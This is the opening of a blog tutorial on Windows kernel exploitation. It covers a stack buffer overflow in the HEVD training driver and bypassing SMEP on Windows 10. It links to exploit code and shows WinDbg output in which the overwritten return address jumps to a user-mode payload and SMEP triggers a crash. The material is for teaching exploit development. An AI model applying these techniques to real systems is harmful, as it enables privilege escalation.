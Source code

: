 ```yaml
---
layout: post
title: "[Kernel Exploitation] 4: Stack Buffer Overflow (SMEP Bypass)"
date: 2018-01-11 00:00:00
share: true
comments: true
description: Building up on part 3, this post shows how exploitation is done on a Windows 10 machine with SMEP enabled.
tags: [Kernel Exploitation]
---
```


*Part 3 showed how exploitation is done for the stack buffer overflow vulnerability on a Windows 7 x86/x64 machine. This part will target Windows 10 x64, which has SMEP enabled by default on it.*

*Exploit code can be found [here](https://github.com/abatchy17/HEVD-Exploits/tree/master/StackOverflow).*

*Windows build: 16299.15.amd64fre.rs3_release.170928-1534*

*ntoskrnl's version: 10.0.16288.192*

---

Instead of mouthfeeding you the problem, let's run the [x64 exploit](https://github.com/abatchy17/HEVD-Exploits/blob/master/StackOverflow/Win7_x64_SP1/StackOverflow.exe) on the Windows 10 machine and see what happens.

```
kd> bu HEVD!TriggerStackOverflow + 0xc8

kd> g
Breakpoint 1 hit
HEVD!TriggerStackOverflow+0xc8:
fffff801`7c4d5708 ret

kd> k
 # Child-SP          RetAddr           Call Site
00 ffffa308`83dfe798 00007ff6`8eff11d0 HEVD!TriggerStackOverflow+0xc8 [c:\hacksysextremevulnerabledriver\driver\stackoverflow.c @ 101] 
01 ffffa308`83dfe7a0 ffffd50f`91a47110 0x00007ff6`8eff11d0
02 ffffa308`83dfe7a8 00000000`00000000 0xffffd50f`91a47110
```

Examining the instructions at `00007ff68eff11d0` verifies that it's our payload. What would go wrong?

```
kd> t
00007ff6`8eff11d0 xor     rax,rax
kd> t
KDTARGET: Refreshing KD connection

*** Fatal System Error: 0x000000fc
                       (0x00007FF68EFF11D0,0x0000000037ADB025,0xFFFFA30883DFE610,0x0000000080000005)


A fatal system error has occurred.
Debugger entered on first try; Bugcheck callbacks have not been invoked.

A fatal system error has occurred.
```
